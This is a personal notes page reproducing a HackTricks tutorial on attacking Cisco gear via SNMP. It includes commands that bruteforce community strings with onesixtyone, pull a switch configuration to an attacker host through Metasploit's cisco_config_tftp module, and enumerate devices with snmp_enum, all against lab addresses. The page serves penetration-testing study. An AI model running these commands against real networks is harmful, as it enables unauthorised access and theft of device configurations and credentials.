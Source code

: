 ```yaml
---
creation date: July 6th 2023
last modified date: July 6th 2023
aliases: []
tags: #📖
---
```


Primary Categories: [[03 - SNMP Enumeration]] 
Secondary Categories: [[]] 
Links: [[]] 
Search Tag: #📖  

# [[03 - Cisco-SNMP]]  

This page was copied from [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)

## Configuration exfiltration and enumeration via SNMP <a href="#e21c" id="e21c"></a>

**SNMP (Simple Network Management Protocol)** is a protocol that allows you to monitor the status of devices on a computer network. It can be network equipment, IP phones, corporate servers or anything else.

**SNMP uses the UDP transport layer protocol with port numbers 161/UDP and 162/UDP.** So-called community strings are used to refer SNMP agents to the server. These are, shall we say, special passwords for communicating with the SNMP server. **Community strings have either RO (read-only) or RW (read-write) permissions.**

**Actually, SNMP can not only monitor the equipment status, but also manage it in full: dump configs, change the configuration, etc.** If a pentester can look up the value of community strings, he actually gains access to the equipment. **However, it all depends on which string he bruteforced— to RO or RW community string.**

**Bruteforce community strings can be implemented using the** [**onesixtyone**](https://github.com/trailofbits/onesixtyone) **utility.** It will take as input the dictionary for bruteforcing and the IP addresses of the target hosts. The targets will be:

* **10.10.100.10 — Cisco vIOS Switch**
* **10.10.100.254 — Cisco vIOS Router**

```
~$ onesixtyone -c communitystrings -i targets
```

We found out what community strings are used on those devices. This opens the way for us to exploititation.

### 8.1 cisco\_config\_tftp <a href="#1dbf" id="1dbf"></a>

With the Metasploit framework, namely the **cisco\_config\_tftp** module, you can pull the device configuration by knowing the value of the community string. The string that has the rights to the RW is **private**.

We will need the following:

* **RW community string (COMMUNITY)**
* **Attacker’s IP address (LHOST)**
* **Target equipment IP address (RHOSTS)**
* **the path in which the module outputs the configuration of the device (OUTPUTDIR)**

```bash
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > set COMMUNITY private
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > set RHOSTS 10.10.100.10
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > set LHOST 10.10.100.50
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > set OUTPUTDIR /home/necreas1ng/snmp
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > exploit
```

After starting the module, the host configuration with address 10.10.100.10 (10.10.100.10.txt) will be downloaded to the specified folder.

![](<../../.gitbook/assets/image (223).png>)

### 8.2 snmp\_enum <a href="#3429" id="3429"></a>

With this module you can find out information about the target hardware. Everything is exactly the same: specify **COMMUNITY** (by the way, even a string with **RO permissions will do**) and the IP address of the target device.

```bash
msf6 auxiliary(scanner/snmp/snmp_enum) > set COMMUNITY public
msf6 auxiliary(scanner/snmp/snmp_enum) > set RHOSTS 10.10.100.10
msf6 auxiliary(scanner/snmp/snmp_enum) > exploit
```

<figure><img src="../../.gitbook/assets/image (218).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: July 6th 2023 (02:08 pm) 
Last Modified Date: July 6th 2023 (02:08 pm)
